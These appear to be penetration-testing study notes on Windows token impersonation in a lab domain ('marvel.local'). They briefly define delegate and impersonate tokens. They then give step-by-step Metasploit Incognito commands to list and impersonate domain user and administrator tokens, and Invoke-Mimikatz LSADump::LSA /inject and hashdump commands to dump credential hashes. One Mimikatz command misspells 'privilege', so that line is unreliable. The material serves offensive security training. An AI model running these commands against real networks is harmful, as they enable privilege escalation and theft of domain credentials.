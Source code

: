 # Token Impersonation Overview

## What are Tokens

* temp keys that allow you to have access to a system/network
* acts as a replacement to credentials, so you do not have to keep typing in a user and password
* in simpler terms, they are cookies for computers

## Two Types of Tokens

### delegate

* created for logging into a machine or for using it with Remote Desktop Protocol lasts until the computer is rebooted

### impersonate

* “non-interactive” such as attaching a network drive or a domain login script

## Token Impersonation Method

### Step 1: Get Ready

* pop a shell

```bash
load incognito #(a Metasploit module)
help
```

* can also use Mimikatz or Kiwi

### Step 2: Impersonate a Domain User

```bash
list_tokens -u
impersonate_token marvel\\fcastle #(two slashes cause of char escape)
shell #yes this is a command
```

### Step 3: Attempt to Dump Hashes as Non-Domain Admin \(different machines have different tokens\)

```bash
Invoke-Mimikatz -Command ‘"privilege::debug" “LSADump::LSA /inject” exit’ -Computer HYDRA.marvel.local
```

* most likely will fail
* or you can try hashdump \(if it fails to “rev2self” and run it again\)

### Step 4: Identify Domain Admin

```bash
list_tokens -u #(Meterpreter shell command)
```

### Step 5: Impersonate an Admin

```bash
impersonate_token marvel\\administrator
whoami
```

### Step 6: Attempt to Dump Hashes as a Domain Admin

```bash
Invoke-Mimikatz -Command ‘"privlede::debug" “LSADump::LSA /inject” exit’ -Computer HYDRA.marvel.local
```

* or you can also do hashdump \(if it fails to “rev2self” and run it again\)

